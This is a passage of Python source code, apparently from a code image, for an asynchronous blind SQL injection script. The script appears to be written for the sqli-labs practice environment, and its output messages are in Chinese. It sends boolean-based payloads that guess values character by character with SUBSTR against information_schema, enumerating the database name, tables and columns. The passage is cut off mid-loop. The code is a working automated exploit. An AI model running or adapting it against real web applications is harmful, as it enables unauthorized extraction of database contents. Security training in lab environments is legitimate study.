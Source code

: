   ```
      for length in range(1, 11):
          for char in charset:
              payload = f"?id=1')) AND SUBSTR(database(), {length}, 1)='{char}' --+"
              r = await fetch(session, payload)
              if "You are in.... Use outfile......" in r:
                  db_name += char
                  print(Fore.GREEN + f"数据库名字符 {length}: {char}" + Style.RESET_ALL)
                  break
      return db_name
  
  async def get_table_names(session):
      table_names = []
      table_count = 0
      for count in range(1, 11):
          payload = f"?id=1')) AND (SELECT COUNT(*) FROM information_schema.tables WHERE table_schema=database())={count} --+"
          r = await fetch(session, payload)
          if "You are in.... Use outfile......" in r:
              table_count = count
              break
  
      print(Fore.YELLOW + f"表的个数: {table_count}" + Style.RESET_ALL)
  
      for row in range(table_count):
          table_name = ""
          for length in range(1, max_length + 1):
              for char in charset:
                  payload = f"?id=1')) AND SUBSTR((SELECT table_name FROM information_schema.tables WHERE table_schema=database() LIMIT {row}, 1), {length}, 1)='{char}' --+"
                  r = await fetch(session, payload)
                  if "You are in.... Use outfile......" in r:
                      table_name += char
                      print(Fore.BLUE + f"表名 {row + 1} 字符 {length}: {char}" + Style.RESET_ALL)
                      break
          table_names.append(table_name.strip())
  
      print(Fore.CYAN + f"获取的表名: {table_names}" + Style.RESET_ALL)
      return table_names
  
  async def get_fields_and_data(session, table_names):
      all_data = {}
      for table_name in table_names:
          column_names = []
          column_count = 0
  
          for count in range(1, 11):
              payload = f"?id=1')) AND (SELECT COUNT(*) FROM information_schema.columns WHERE table_schema=database() AND table_name='{table_name}')={count} --+"
              r = await fetch(session, payload)
              if "You are in.... Use outfile......" in r:
                  column_count = count
                  break
  
          print(Fore.YELLOW + f"表 '{table_name}' 的字段个数: {column_count}" + Style.RESET_ALL)
  
          for row in range(column_count):
              column_name = ""
              for length in range(1, max_length + 1):
                  for char in charset:
                      payload = f"?id=1')) AND SUBSTR((SELECT column_name FROM information_schema.columns WHERE table_schema=database() AND table_name='{table_name}' LIMIT {row}, 1), {length}, 1)='{char}' --+"
                      r = await fetch(session, payload)
  ```